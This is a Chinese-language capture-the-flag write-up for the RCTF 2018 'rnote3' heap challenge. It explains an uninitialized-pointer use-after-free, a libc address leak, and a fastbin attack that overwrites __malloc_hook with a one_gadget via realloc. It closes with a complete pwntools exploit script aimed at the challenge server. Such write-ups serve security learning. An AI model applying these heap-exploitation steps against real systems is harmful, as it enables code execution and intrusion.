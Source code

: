 # 标题

> rctf-rnote3

## **原理**

泄漏libc地址，利用fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

漏洞出现在delete：

![](./pic/1.png)

思路：
 
- 首先我们要泄漏libc的地址，利用 ptr没有初始化

```
add('1\n',0xa0,'a\n') 
add('2\n',0xa0,'b\n')
```

先add两个元素，元素在内存中是这样的结构：

```
                +-+-+-+-+-+-+-+-+-+-+-+ 
                |                     |
                +-+-+-+-+-+-+-+-+-+-+-+
                |                     | 
    dest------->+-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+
                |     title           |        |                     |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+
                |     size            |        |                     |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+
                |                     |------> |      content        |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+
                |          .          |        |          .          |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+ 
                |          .          |        |          .          |
                +-+-+-+-+-+-+-+-+-+-+-+        +-+-+-+-+-+-+-+-+-+-+-+ 
```


![](./pic/2.png)

- 然后 输出 元素1的content，但这一步的目的是为了将 rsp+8h的位置置为 元素1的地址。因为ptr也存储在 rsp+8h的位置，这一步是为了利用 ptr没有初始化的漏洞，请继续往下看。


```
show('1\n')
delete('a\n')
```

![](./pic/3.png)

show(1)结束后，我们查看一下rsp+8h 位置的值。（此时的rsp已经不是 rsp+8h 时的 rsp了，所以并不是读取当前寄存器存储的地址所存储的内容

![](./pic/4.png)

这样又因为delete 中，对ptr没有进行初始化，所以我们在删除一个不存在的元素时，就会free掉 ptr本身存在的地址。

![](./pic/5.png)

由上图可见，元素1已经被删除，UAF。

又因为元素1在删除之后，title所在的堆块进入了fastbin中，所以title所对应的位置 fd变成了0。

![](./pic/6.png)

所以 在读取元素1 的 content的时候要使用 `show('\n')`

```
show('\n')
libc=u64(p.recv(6)+'\x00\x00')
base=libc-0x3C4B78
```

这样就得到了 main_arena+88的地址。 进而计算出libc的基地址。


- 接下来，进行fastbin attack。 

```
add('3\n',0xa0,'c\n')
add('4\n',0x68,'d\n')
add('5\n',0x68,'e\n')

show('4\n')
delete('a\n')
#修改fd
edit('\n',p64(malloc_hook-0x23)+'\n') 
add('6\n',0x68,'f\n')
#使用one_gadget
add('7\n',0x68,'a'*3+p64(base+0x4526a)*2+p64(base+0x846D0)+'\n')

se('1\n')
```

但是这道题比较特殊：

`add('7\n',0x68,'a'*3+p64(base+0x4526a)*2+p64(base+0x846D0)+'\n')`

这句代码是将_malloc_hook指向 base+0x846d0，这个地址对应的汇编代码如下：

![](./pic/7.png)

看到此处有一个抬高栈的操作。这是因为 我们在 这道的one_gadget中，都不能用。

![](./pic/8.png)

因为 constraints都无法满足。所以 将栈抬高，这样就 有可能满足 constraints。

所以 跳到了 realloc中(base+0x846D0)。 这样我们就能利用one_gadget了。非常巧妙～


exp:

```
from pwn import *

debug=0
context.log_level='debug'
e=ELF('./libc.so')
if debug:
    p=process('RNote3',env={'LD_PRELOAD':'./libc.so'})
    context.log_level='debug'
    gdb.attach(p)
else:
    p=remote('rnote3.2018.teamrois.cn',7322)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def add(title,sz,content):
    se('1\n')
    ru('please input title:')
    se(title)
    ru('please input content size:')
    se(str(sz)+'\n')
    ru('please input content:')
    se(content)
    sleep(0.1)

def show(title):
    se('2\n')
    ru('please input note title: ')
    se(title)
    ru('note content: ')
    sleep(0.1)

def edit(title,content):
    se('3\n')
    ru('please input note title:')
    se(title)
    ru('please input new content: ')
    se(content)
    sleep(0.1)

def delete(title):
    se('4\n')
    ru('please input note title: ')
    se(title)
    sleep(0.2)

#=====leak libc============
add('1\n',0xa0,'a\n')
add('2\n',0xa0,'b\n')
show('1\n')
delete('a\n')
show('\n')

libc=u64(p.recv(6)+'\x00\x00')
base=libc-0x3C4B78

malloc_hook=base+e.symbols['__malloc_hook']

#=======fastbin attack===========
add('3\n',0xa0,'c\n')
add('4\n',0x68,'d\n')
add('5\n',0x68,'e\n')

show('4\n')
delete('a\n')
edit('\n',p64(malloc_hook-0x23)+'\n')
add('6\n',0x68,'f\n')
add('7\n',0x68,'a'*3+p64(base+0x4526a)*2+p64(base+0x846D0)+'\n')

se('1\n')

p.interactive()
```
## **参考阅读**
[一个相似的题 pwnable.tw](http://tacxingxing.com/2018/02/20/pwnabletw-secretgarden/#toc_5)